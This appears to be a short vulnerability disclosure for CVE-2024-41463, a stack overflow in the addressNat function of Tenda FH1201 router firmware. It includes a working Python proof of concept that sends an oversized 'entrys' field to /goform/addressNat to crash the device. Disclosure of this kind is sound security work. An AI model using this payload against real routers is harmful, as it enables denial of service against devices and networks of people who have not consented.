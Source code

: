 # addressNat

Firmware download website:https://www.tendacn.com/download/detail-3322.html

### CVE number

CVE-2024-41463

### Vulnerability details

Tenda FH1201 v1.2.0.14 has a stack overflow vulnerability located in the addressNat function.The parameter entrys is copied to stackspace v6 via the sprintf function without checking the length,so an attacker can cause a denial of service attack by controlling the entrys parameter

![image-20240724095512087](./image-20240724095512087.png)

### poc

```python
import requests

ip = '192.168.74.145'

url = f"http://{ip}/goform/addressNat"

data = {"entrys": "a"*999}

ret = requests.post(url, data)

```

![image-20240724095607594](./image-20240724095607594.png)

